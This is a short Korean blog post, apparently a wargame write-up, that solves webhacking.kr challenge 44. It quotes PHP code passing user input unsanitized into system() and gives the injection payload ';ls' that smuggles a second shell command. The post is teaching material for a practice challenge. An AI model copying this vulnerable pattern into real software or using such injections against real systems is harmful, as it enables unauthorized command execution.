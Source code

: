 ```yaml
---
title: "[webhacking.kr] 44번 문제 풀이[command injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - command injection
toc: true
toc_sticky: true
toc_label: "44번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 44번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152749393-b116b08b-26e5-42e7-acee-068339b302e4.png)

  ```php
<?php
  if($_POST['id']){
    $id = $_POST['id'];
    $id = substr($id,0,5);
    system("echo 'hello! {$id}'"); // You just need to execute ls
  }
?>
  ```


# 문제 풀이
  다음과 같이 입력해줍니다.

  ```md
  ';ls'
  ```

  를 입력하면 system 함수는 다음과같이 실행되어 bash에서 ls 명령어가 실행됩니다.

  ```bash
echo 'hello! ';ls''
  ```


  ![image](https://user-images.githubusercontent.com/33647663/152749953-81997ede-d705-4493-9344-4479bd94b7ef.png)

  flag 파일의 경로가 나왔으니 해당 파일을 접근해보면 플래그가 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/152750009-3139fee1-3cd1-4b36-8551-3a80bd6db1c0.png)

